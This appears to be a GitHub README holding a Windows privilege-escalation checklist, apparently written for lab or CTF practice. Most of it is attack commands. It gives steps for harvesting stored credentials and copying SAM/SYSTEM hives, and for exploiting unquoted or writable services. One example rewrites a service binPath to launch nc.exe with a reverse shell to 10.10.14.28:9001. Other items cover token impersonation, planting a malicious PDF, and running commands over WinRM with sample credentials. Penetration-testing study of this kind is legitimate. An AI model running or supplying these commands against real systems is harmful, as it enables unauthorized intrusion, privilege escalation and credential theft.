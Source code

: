 
Made By J3wker


  ██╗          ██╗██████╗ ██╗    ██╗██╗  ██╗███████╗██████╗      ██╗
 ██╔╝          ██║╚════██╗██║    ██║██║ ██╔╝██╔════╝██╔══██╗     ╚██╗ 
██╔╝█████╗     ██║ █████╔╝██║ █╗ ██║█████╔╝ █████╗  ██████╔╝█████╗╚██╗
╚██╗╚════╝██   ██║ ╚═══██╗██║███╗██║██╔═██╗ ██╔══╝  ██╔══██╗╚════╝██╔╝
 ╚██╗     ╚█████╔╝██████╔╝╚███╔███╔╝██║  ██╗███████╗██║  ██║     ██╔╝ 
  ╚═╝      ╚════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝     ╚═╝ 



BEFORE STARTING !! if system before 2012 - try juciypotato
use `systeminfo` | google the system and update version - look for CVE's and kernel Exploits.
If nothing found start the check list.


Check List:
_____________________

NOTE: List files you saw when you enumerated the web and looked intersering. 
Example:

`secret.php`
`db.php`
`auth.php`

Read them after getting a basic shell - might have creds in them 
if so `net user` try the creds against users - maybe it matches.

Example:
`runas /user:Administrator cmd.exe`
Check running process 
1. `ps`

```
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

remmber PID of weird process
Write it down and use
2. `netstat -ano`
Check for open ports - google that port - what is it ?

see Users
3. `net user`

see specific username information / groups
4. `net user username` - which group is he in ? Logs reader ? read logs - maybe passwords hidden, maybe automatic script the read logs
inject command!, part of "Remote Management Group" ? maybe use WinRM 

5. check Credentials mananger:

`dir C:\Users\username\AppData\Local\Microsoft\Credentials\`
`dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\`
`cmdkey /list` 
if is has keys try:

Domain could be also Hostname or just use username alone
runas /user:DOMAIN\Username /savecred command

if that doesnt work - try Meterpreter `load incognito`- maybe impersonate to a certain user

6. check `Documents` folder 
7. check `Downloads` folder
8. check `Program Files (x86)` folder
9. check `Program Files` folder
10. check `AppData` folder and etc `Local` - `LocalLow` - `Roaming`

Look for werid files and installed programs - look for exploits in them.

______________________________________________________
11. check services with write access - to change binpath

`accesschk.exe -accepteula -uvwc *`

Example:
1. `sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.28 9001 -e cmd.exe"`
$ Start a listener on port 9001
2. `sc stop usosvc`
3. `sc start usosvc`
4. get a shell.
______________________________________________________

12. Check for files like .txt / .php - read them.
check for automated scripts that are waiting for scertain files for example:

"Admin is waiting for PDF drop it in C:\Docs" - create a Malicious PDF - drop it

13. Look for backups files `SAM.bak` - `SYSTEM.bak`/ windows image backup.

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

14. What Groups are on the system? 
`net localgroup`

15. Unquoated services ? if so hijack it!

```
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```

16. What scheduled tasks are there? Anything custom implemented?

`schtasks /query /fo LIST 2>nul | findstr TaskName`

or in powershell:

`Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`

17. what is running on startup ?

`wmic startup get caption,command`

18. Permissions on specific folders ?

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```
NOTE: Change the value of "Everyone" to your desire.
example:

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
```

19. If you have user Creds and WinRM is open try:

NOTE: Change Values `$user`  and `$pw` to match your case.

```
$user = 'SNIPER\Chris'
$pw = '36mEAhz/B8xQ~2VM'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```

Possible to convert into one-liner:

```
$user = 'SNIPER\Chris';$pw = '36mEAhz/B8xQ~2VM';$secpw = ConvertTo-SecureString $pw -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```


and then:

```
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {command}
```

Get command at the user you prompted 







